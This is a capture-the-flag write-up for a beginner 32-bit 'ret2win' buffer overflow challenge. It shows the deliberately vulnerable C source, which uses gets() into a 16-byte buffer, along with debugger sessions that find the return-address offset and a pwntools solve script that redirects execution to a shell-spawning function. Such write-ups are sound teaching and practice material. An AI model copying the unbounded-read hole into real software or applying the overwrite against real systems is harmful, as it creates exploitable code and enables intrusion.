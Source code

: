 ```yaml
---
title: # Baby Buffer Overflow - 32bit
author: saturn_
pubDate: 2024-10-17
toc: true
share: true
ogImage: true
---
```


# Baby Buffer Overflow - 32bit 

<p align="center">
  <img src="../../assets/dom-images/logo.jpg" alt="Dombusters" width="25%">
</p>

## Description

Author: @aenygma

Can you command this program to where it cannot go?
To get the flag, you must somehow take control of its excecution.
Is it even possible?

Press the Start button on the top-right to begin this challenge.
Attachments: 

`babybufov`, `babybufov.c`

## Solution

We're given a source file, `babybufov.c`, containing this:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

So, we can see that this is a ret2win, so this is trivial! Let's just get the addresses we need in `gdb`, and then we have an easy flag!

```bash
pwndbg> cyclic 120
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
pwndbg> r
Starting program: /home/strn/babybufov
zsh:1: no such file or directory: /home/strn/babybufov
During startup program exited with code 127.
pwndbg>
```

... the fuck?


Turns out, this is not an issue of the executables location. We can run `file` against it with no problem, but executing the file somehow makes it nonexistent again? 

Turns out, this is a problem of the libraries of the executable. We can use `ldd` to check which libraries it tries to link to.
```
$ ldd babybufov
	linux-gate.so.1 (0xeefe9000)
	libc.musl-x86.so.1 => not found
```

Alright, so we have the linux-gate.so.1, but we're missing MUSL. Installing MUSL via `sudo pacman -S musl` doesn't fix our problem, so what we have to do is install MUSL via the AUR via `paru -S aur/i386-musl`.

Let's go back to GDB.

```bash
$  gdb-pwndbg ./babybufov
pwndbg> cyclic 120
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
pwndbg> r
Gimme some data!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab

Program received signal SIGSEGV, Segmentation fault.
0x61616168 in ?? ()
# SNIP
00:0000│ esp 0xffffd0d0 ◂— 'iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab'
```

We can get the offset by using the `cyclic` function.

```bash
pwndbg> cyclic -l iaaa
Finding cyclic pattern of 4 bytes: b'iaaa' (hex: 0x69616161)
Found at offset 32
```

Because this is a 32-bit binary, we have to subtract 4 bytes from what we get here, so the offset is *actually* 28. 

Here's the solve script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./babybufov')

exe = context.binary

payload = b'A' * 28
payload += p32(0x8049006) # objdump -d ./babybufov | rg "ret"
payload += p32(exe.symbols['target'])


io = process()

io.sendline(payload)

io.interactive()
```


---
**Dombusters**: _Writeup written by saturn_
